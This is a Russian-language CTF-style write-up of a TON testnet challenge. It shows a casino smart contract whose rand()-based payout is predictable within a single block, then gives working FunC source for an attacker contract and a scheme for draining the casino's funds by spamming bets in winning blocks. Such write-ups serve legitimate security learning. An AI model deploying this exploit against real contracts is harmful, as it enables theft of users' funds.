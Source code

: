 # 4-day
- Дали [контракт](https://testnet.tonviewer.com/kQAgZ_lRPOWLs2aoWtsHAZWFFIZreZc9ItJ8A6vMr491_UZX), который запущен по адресу `kQAgZ_lRPOWLs2aoWtsHAZWFFIZreZc9ItJ8A6vMr491_UZX`
- Известен исходный код контракта

```jsx
#include "imports/stdlib.fc";

const gas_cost = 10000000;

() send(slice addr, slice body, int grams) impure inline_ref {
  ;; int_msg_info$0 ihr_disabled:Bool bounce:Bool bounced:Bool src:MsgAddress -> 011000
  var msg = begin_cell()
    .store_uint(0x18, 6)
    .store_slice(addr)
    .store_coins(grams)
    .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1 + 32)
    .store_slice(body);
  send_raw_message(msg.end_cell(), SEND_MODE_REGULAR);
}

() recv_internal(int my_balance, int msg_value, cell in_msg_full, slice in_msg_body) impure {
    slice msg = in_msg_full.begin_parse();
    int flags = msg~load_uint(4);
    slice source_address = msg~load_msg_addr();
    if (flags & 1) {
        return ();
    }
    if (rand(10) < 4) {
        if (msg_value * 2 < my_balance - gas_cost) {
            send(source_address, "you won", msg_value * 2);
        } else {
            send(source_address, "vault is empty", my_balance - gas_cost);
        }
        return ();
    }
}

```

Это казино, на нём 100 тонов и надо их всех выкачать

# Решение

Таск основывается на том, что ещё в первый день Вова вкинул, что он знает как взломать контракт Тимура и после этого Тимур дописал `randomize_lt()`

Сама по себе`rand(n)` является небезопасной функцией и работает следующим образом:

- `seed` в контракте определяется `hash(block_seed, account_address)`
- `block_seed` текущего блока знают только валидаторы, а мы этот сид никак узнать не можем

> [Therefore, to predict the result of the random() function in a smart contract, you just need to know the current seed of the block, which isn't possible if you're not a validator.](https://docs.ton.org/v3/guidelines/smart-contracts/security/random-number-generation#how-can-someone-predict-a-random-number)

Тем не менее, можно провести атаку на рандом в пределах одного блока

## Как работает атака?

1. Отправляем первую ставку в казино
2. Если выиграли (получили сообщение `You won`) → продолжаем спамить такие же ставки в тот же блок
3. Если не получили ответа → блок сменился, мы проиграли, останавливаем атаку.
4. Повторяем процесс на новом блоке, пока не обанкротим казино.

Когда казино обанкротилось, выводим деньги из атаковавшего контракта себе на основной аккаунт

## Почему это работает?

`seed` фиксирован в рамках одного блока и если одна ставка выйграла, то и всё ставки в текущем блоке выйграют

## Код атакующего контракта

Может быть не идеальным, но он работает

```jsx
#include "imports/stdlib.fc";

const admin_address = "0QCpmGaG1ypBqdY757UNTZphiXJOMu0bGPxumvjYTu4KEhDj"a;
const vova = "kQAgZ_lRPOWLs2aoWtsHAZWFFIZreZc9ItJ8A6vMr491_UZX"a;

() send_real_bet(slice addr, slice body, int grams) impure inline_ref {
  var msg = begin_cell()
    .store_uint(0x18, 6)
    .store_slice(addr)
    .store_coins(grams)
    .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1 + 32)
    .store_slice(body);
  send_raw_message(msg.end_cell(), SEND_MODE_REGULAR);
}

() recv_internal(int my_balance, int msg_value, cell in_msg_full, slice in_msg_body) impure {
    if (in_msg_body.slice_empty?()) {
        return ();
    }

    int op = in_msg_body~load_uint(32);

    slice cs = in_msg_full.begin_parse();
    int flags = cs~load_uint(4);
    if (flags & 1) {
        return ();
    }
    slice source_address = cs~load_msg_addr();
    
    if (op == 0) {
        send_real_bet(vova, "auto try", 133700000);
    }
    if (op == 1) {
        send_real_bet(vova, "init try", 100000000);
    }
    ;; ручка для вывода денег
    if (op == 2) {
        if (equal_slices_bits(admin_address, source_address)) { 
            cell msg =  begin_cell()
                .store_uint(0x18, 6)
                .store_slice(source_address)
                .store_coins(0) 
                .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
                .store_uint(0, 32)
                .store_slice("money back")
            .end_cell();
            send_raw_message(msg, 128);
            return ();
        }
    }

    return ();
}
```

# Схема атаки (упрощённая)

В реальности будет в районе 500 транзакций в одной

![[scheme_attack.png]]
Узел A - мой основной аккаунт, который принудительно запускает всё с сообщением `init try`

Узел B - атакующий контракт, который понял, что в этом блоке у нас подходящий `seed`, поэтому начинаем атаковать отсылая сообщения `auto try`

Узел C - казино, принимает ставки и возвращает сообщения `you won` с выигрышем

Атака прекратится после первой неудачи, когда узел C не вернёт никакого ответа

--------
@Jl4cTuk
